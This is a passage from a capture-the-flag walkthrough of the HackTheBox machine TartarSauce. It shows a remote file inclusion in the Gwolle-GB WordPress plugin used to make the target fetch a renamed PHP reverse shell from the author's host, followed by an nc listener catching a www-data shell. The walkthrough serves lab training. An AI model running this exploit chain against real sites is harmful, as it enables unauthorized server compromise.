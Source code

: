 To test this, I first started a python http server on my host, and then visited the site:

```

root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/

```

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -

```

### Shell

I’ll grab `php-reverse-shell.php` from `/usr/share/webshells/php` on Kali. There’s a couple lines you have to customize with your own IP and desired callback port. Then I’ll name it `wp-load.php`, and open a `nc` listener, and run that `curl` again:

```

root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/

```

```
10.10.10.88 - - [28/May/2018 15:15:03] "GET /wp-load.php HTTP/1.0" 200 -

```

```

root@kali# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 43868
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
 15:15:43 up  2:35,  0 users,  load average: 0.15, 0.04, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Privesc: www-data –> onuma

As `www-data`, we can’t get into the lone user directory:

```

www-data@TartarSauce:/home$ ls
onuma
www-data@TartarSauce:/home$ cd onuma/
bash: cd: onuma/: Permission denied

```
